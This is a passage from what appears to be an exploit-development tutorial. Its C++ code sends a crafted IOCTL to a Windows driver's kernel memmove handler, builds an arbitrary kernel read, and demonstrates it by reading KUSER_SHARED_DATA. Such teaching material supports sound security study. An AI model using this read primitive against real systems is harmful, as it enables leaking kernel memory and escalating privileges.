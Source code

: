 ```c++
        (ULONGLONG)output_buff,
        target_address,
        sizeof(ULONGLONG) * amount
    };

    // Perform kernel memmove call
    DeviceIoControl(
        device_handle,
        RW_TARGET_IOCTL_CODE,
        &input_buff,
        sizeof(input_buff),
        NULL,
        NULL,
        &bytes_returned,
        NULL
    );
    // Return pointer list to extracted data
    ULONGLONG* out = (ULONGLONG*)(ULONGLONG)output_buff;
    return out;
}
```

Lastly to build out the `main` method to handle creating the driver handle and parsing the hopefully copied data. 

To start out I indicated that I wanted to read out 8 QWORDS of data from the `KUSER_SHARED_DATA` structure, indicated by `amount`.

```c++
int main()
{
    printf_s("\t[**] Opening handle to driver!\n");
    // Create handle to driver
    HANDLE DriverHandle = CreateFileA(
        DRIVER, 
        GENERIC_READ | GENERIC_WRITE,
        0,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );
    // Ensure driver handle is valid
    if (DriverHandle == INVALID_HANDLE_VALUE)
    {
        printf("\t[!!] Failed to open driver handle!\n");
        exit(0);
    }

    int amount = 8;
    ULONGLONG* returned = arbitrary_read(DriverHandle, 0xfffff78000000000, amount);
    for (int i = 0; i < amount; i++) {
        printf_s("> %llx\n", *(returned + i));
    }
}
```
